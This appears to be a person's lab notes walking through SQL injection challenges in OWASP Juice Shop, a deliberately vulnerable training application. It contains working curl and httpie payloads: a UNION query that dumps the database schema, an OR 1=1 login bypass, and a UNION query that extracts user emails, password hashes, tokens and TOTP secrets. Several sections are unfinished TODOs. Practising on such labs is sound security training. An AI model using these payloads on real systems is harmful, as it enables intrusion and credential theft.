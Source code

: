# Injection

Resources

* [SQL injection](https://portswigger.net/web-security/sql-injection)

## Reconnaissance

Intercept all requests with burp and look for a request with parameters to fuzz
```bash
# send to intruder
#GET /rest/products/search?q=';

# sql injection vulnerability
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo';" | jq
# output
{
  "error": {
    "message": "SQLITE_ERROR: near \";\": syntax error",
    "stack": "Error: SQLITE_ERROR: near \";\": syntax error",
    "errno": 1,
    "code": "SQLITE_ERROR",
    "sql": "SELECT * FROM Products WHERE ((name LIKE '%foo';%' OR description LIKE '%foo';%') AND deletedAt IS NULL) ORDER BY name"
  }
}
```

## Order the Christmas special offer of 2014

```bash
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=2014%'+AND+deletedAt+IS+NOT+NULL));--" | jq

# with firefox or burp edit and send a POST request with ProductId=10
# http://box-owasp-juice-shop-0eruj:3000/api/BasketItems
# {"ProductId":10,"BasketId":"6","quantity":1}
```

## Exfiltrate the entire DB schema definition via SQL Injection

```bash
# Products table has 9 columns (see json above)
# to fix "SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns"
# add N static columns in order to match them
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo%'))+UNION+SELECT+name,sql,'a','b','c','d','e','f','g'+FROM+sqlite_master+WHERE+type='table';--" | jq '.data | map({"id":.id,"name":.name})'
```

## Log in with the (non-existing) accountant without ever registering that user

```bash
http http://juiceshop:3000/rest/user/login email=\' password=foo
# output
{
    "error": {
        "message": "SQLITE_ERROR: near \"acbd18db4cc2f85cedef654fccc4a4d8\": syntax error",
        "name": "SequelizeDatabaseError",
        "original": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "parameters": {},
        "parent": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL",
        "stack": "Error\n    at Database.<anonymous> (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:185:27)\n    at /juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:50\n    at new Promise (<anonymous>)\n    at Query.run (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:12)\n    at /juice-shop/node_modules/sequelize/lib/sequelize.js:315:28\n    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)"
    }
}

http http://juiceshop:3000/rest/user/login email="acc0unt4nt@juice-sh.op' OR 1=1--"
```

## Log in with the administrator's user account

```bash
TODO
```

## Log in with Bender's user account

```bash
TODO
```

## Log in with Jim's user account

```bash
TODO
```

## Let the server sleep for some time

```bash
TODO
```

## All your orders are belong to us

```bash
TODO
```

## Update multiple product reviews at the same time

```bash
TODO
```

## Infect the server with juicy malware by abusing arbitrary command execution

```bash
TODO
```

## Retrieve a list of all user credentials via SQL Injection

```bash
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo%'))+UNION+SELECT+id,username,email,password,role,deluxeToken,totpSecret,isActive,createdAt+FROM+Users;--" | jq '.data'
```
